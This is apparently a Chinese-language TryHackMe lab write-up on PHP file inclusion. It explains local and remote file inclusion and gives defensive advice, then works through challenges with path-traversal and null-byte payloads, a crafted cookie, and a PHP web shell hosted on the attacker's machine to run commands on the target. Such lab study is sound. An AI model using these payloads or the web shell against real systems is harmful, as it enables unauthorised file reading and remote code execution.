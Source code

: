 # 文件包含


### 本地文件包含

php: file_get_contents、include、require、include_once、require_once

../ 穿越  返回上一级

后面不可控，%00或0x00 截断

注意：%00技巧是固定的，不适用于PHP 5.3.4及更高版本

. 一个点代表当前目录

/etc/passwd/.  等价于/etc/passwd   绕过

如果有../替换成空字符串可以尝试重写绕过  ....//....//....//....//etc/passwd
原理也很简单

如果前面的路径不可控，可以直接../穿越


### 远程文件包含

与LFI类似，挺简单

要求是allow_url_fopen\allow_url_include是开启的

下图是成功进行 RFI 攻击的步骤示例！假设攻击者在自己的服务器上托管一个PHP文件，http://attacker.thm/cmd.txt 其中cmd.txt包含打印消息Hello THM。

    <?PHP echo "Hello THM"; ?>

首先，攻击者注入恶意 URL，该 URL 指向攻击者的服务器，例如http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt。如果没有输入验证，则恶意 URL 将传递到 include 函数中。接下来，Web 应用服务器将向恶意服务器发送GET请求以获取文件。因此，Web 应用程序将远程文件包含在包含函数中，以在页面中执行 PHP 文件并将执行内容发送给攻击者。在我们的例子中，某处的当前页面必须显示Hello THM消息。


### 防御

作为开发人员，了解 Web 应用程序漏洞、如何查找它们以及预防方法非常重要。为了防止文件包含漏洞，一些常见的建议包括：

    使系统和服务（包括 Web 应用程序框架）保持最新版本的更新。

    关闭 PHP 错误以避免泄露应用程序的路径和其他可能泄露的信息。

    Web 应用程序防火墙 （WAF） 是帮助缓解 Web 应用程序攻击的不错选择。

    禁用某些会导致文件包含漏洞的 PHP 功能（如果 Web 应用不需要这些功能），例如打开和allow_url_include allow_url_fopen。

    仔细分析 Web 应用程序，只允许需要的协议和 PHP 包装器。

    永远不要信任用户输入，并确保针对文件包含实现正确的输入验证。

    实施文件名和位置的白名单以及黑名单。


## 挑战

#### Challenge 1

题目要求访问/etc/flag1

题目提示要用post请求

一开始先是用curl构造post请求  data:file=/etc/flag1

结果发现不行，没出结果，经过我无数遍尝试，结果发现题目提示是在post的请求   ......头中插入file字段。。。

最终成功拿到flag


#### Challenge 2

进入题目页面，提示：

    Welcome Guest!
    Only admins can access this page!

想都不用想，直接按下神奇的F12并按下神奇的F5，抓包看见请求头里面有cookie:

    Cookie: THM=Guest

果断改成admin，然后再构造get请求的file参数访问/etc/flag2，结果啥事没发生

我反复观看这个页面最终锁定了刚刚的：

    Welcome Guest!
    Only admins can access this page!

其中的：

    Only admins can access {this page!}

也就是说这并不是一段话，从一个文件读取到的，果断在Cookie的THM加入恶意符号，结果居然报错了

    Welcome [
    Warning: include(includes/[.php) [function.include]: .........

从此也能看出后缀被限定为了.php，我想我需要%00截断

构造cookie:

    THM="../../../../../../etc/flag2%00"

成功拿到flag

### Chellenge 3

利用到了上一章的身份认证绕过里面的知识点，不在阐述。


### 最终

题目要求远程执行hostname命令获取其内容

题目提示要使用RFI，首先在tryhackme的kali机中通过

    python3 -m http.server

开启http服务，然后再创建一个名为cmd.php文件，内容为：

    <?PHP
        echo system($_GET['cmd']);
    ?>

回到靶机，在题目表单中输入kali机的http://ip:port/cmd.php ，然后在靶机url上添加get参数&cmd=hostname

最终获得答案
